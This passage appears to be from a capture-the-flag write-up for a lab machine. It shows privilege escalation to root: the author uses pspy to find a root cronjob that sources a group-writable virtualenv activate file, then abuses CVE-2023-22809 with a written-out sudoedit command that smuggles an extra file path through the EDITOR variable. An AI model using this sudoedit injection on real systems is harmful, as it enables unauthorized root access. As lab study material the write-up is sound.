 So, which file to write. For that I ran pspy to check any cronjob. And I found out, root user is running **source /app/venv/bin/activate** in every minute. and the dev_admin user can edit it.

```bash
edwards@agile:/app/app-testing$ ls -al /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Jul 12 14:06 /app/venv/bin/activate
```

So, I opened the file using **CVE-2023-22809** edited it with a simple payload.

```bash
EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json
```

![Untitled](Agile%207ca8a4a849f84218b33b27a1bf90bc3f/Untitled%2017.png)

After a minute, I got the setuid file and became root

![Untitled](Agile%207ca8a4a849f84218b33b27a1bf90bc3f/Untitled%2018.png)

![Untitled](Agile%207ca8a4a849f84218b33b27a1bf90bc3f/Untitled%2019.png)

Finally I grabbed the root flag
